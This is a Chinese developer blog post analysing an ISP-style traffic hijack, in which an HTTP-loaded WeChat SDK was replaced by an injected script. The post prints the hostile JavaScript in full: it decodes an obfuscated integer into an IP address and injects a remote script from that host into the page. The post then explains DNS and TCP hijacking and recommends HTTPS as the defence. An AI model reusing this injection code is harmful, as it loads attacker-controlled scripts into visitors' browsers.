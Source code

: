 ```yaml
---
Title: 记一次流量劫持
Tags: 编码
PublishDate: 2018/9/17 15:15
---
```


又是填队友坑，拿到代码本地启动后发现神奇的一幕，页面被劫持插入了广告，弹出几秒钟后消失。

![jc0](http://wx3.sinaimg.cn/large/007113CZgy1fvcl8cuxcsj30bf037dgb.jpg)

让我来看看这是咋回事，因为某个微信 sdk 使用了 http，该 JS 脚本的响应结果被篡改替换了。

![jc2](http://wx3.sinaimg.cn/large/007113CZgy1fvcl8i86ugj30kq01dwei.jpg)

![jc3](http://wx4.sinaimg.cn/large/007113CZgy1fvcl8ncohpj31370ia0va.jpg)

**http://res.wx.qq.com/open/js/jweixin-1.2.0.js** 该请求因为使用了 http 给了流量劫持可乘之机，未能返回正确的脚本内容，而是返回了一个被精心构造的恶意脚本。

简单分析下这个恶意脚本做了啥，我们 http 请求 **http://res.wx.qq.com/open/js/jweixin-1.2.0.js** 的响应结果被劫持替换成了下面的脚本，这个脚本又再次构造请求带上标识符去拿到真实的内容，同时将自己的恶意脚本注入到页面上。


```javascript
!function(e, t, n, o, r, i, a, c) {
    // 这里有意思了，之后后会发现变量 c 的结果是一个 IP 地址
    // "124.232.160.178"
    // 这个 IP 地址加上拼凑的字符串变成了 http://124.232.160.178/v1/a/?u=0 
    // 通过 insertBefore 注入了恶意脚本
    c = function(e, t, n) {
        for (t = e % 256,
        n = 3; 0 < n; n--)
            t = (e = Math.floor(e / 256)) % 256 + "." + t;
        return t
    }(2095620274),
    (a = function(e) {
        r = t.createElement(n),
        i = t.getElementsByTagName(n)[0],
        r.src = "//" + e,
        i.parentNode.insertBefore(r, i)
    }
    // 这儿有点意思，似乎是为了避免重复劫持，
    // 通过时间戳和标识符再次请求我们需要的脚本，
    // 这次返回的是真实未被篡改的脚本内容
    )(o + (0 < o.indexOf("?") ? "&" : "?") + "_t" + (new Date).getTime() + "=0i"),
    // 注入恶意脚本 http://124.232.160.178/v1/a/?u=0 
    a(c + "/v1/a/?u=0")
}(window, document, "script", "res.wx.qq.com/open/js/jweixin-1.2.0.js");
```

所以解决问题的办法就是把页面上的 http 替换成 https 或是把资源放到本地存储。

顺手查一下这个 IP 地址的信息发现了一些有意思的事情，这回是哪个临时工背锅呢？

![jc4](http://wx1.sinaimg.cn/large/007113CZgy1fvcl8rf54hj30fu057glv.jpg)

![jcyys](http://wx1.sinaimg.cn/mw690/007113CZgy1fvcl8y06f5j30kf0l7417.jpg)

**流量劫持与防治**

从输入 url 到显示网页所经历的几个过程应该都清楚

1. 首先通过递归轮询 DNS 解析域名获得主机 IP 地址
2. 访问主机 IP 获取资源

因为 Web 是建立在 HTTP 协议上的，这个协议既不能维持状态，又是明文传输，中间链路上任何设备都可以篡改其内容，谁要是想搞点小心思简直轻而易举。流量劫持本身就可以发生在第一步，即解析获得 IP 地址这个过程，有以下可能的劫持方式：

* 如果我们的 DNS 受到污染返回了伪造的主机 IP 那就 GG 了，而解析 DNS 会先尝试本地解析，比如前端经常会修改的 hosts 文件，这个文件是可以被恶意软件篡改的。

* 如果本地解析没有命中，那么浏览器本身也会尝试在自己的缓存中查找，如果找不到就会去域名服务器查询，公共的域名服务器也就是我们在网上邻居里配的哪个，通常默认由 ISP 服务商提供，如果 ISP 提供的域名服务器找不到才会去顶级域名服务器发起查询，再往上就是根域名服务器。那么问题来了，如果 ISP 提供的域名查询服务器作恶或是被黑客控制咋办，那影响就大了，因此只能自己配置权威可信的第三方域名解析服务器，比如`8.8.8.8` 或者 `阿里公共 DNS`等。
* 访问主机获取资源时，如果 TCP 链路中某个设备抢先服务器一步发送了伪造的响应包，那么正常的响应包就会被忽略，这样我们的请求就被劫持了，收到了被篡改伪造的内容，它可以随意插入广告和木马或是钓鱼，而且这种劫持要深入到网络层去抓包才能定位。

从根本上解决劫持的策略就是启用 https，或许我们也可以通过监控页面的资源加载，然后上报比对关键信息来获知页面在用户侧是否遭到了篡改，但这个成本就更大了。
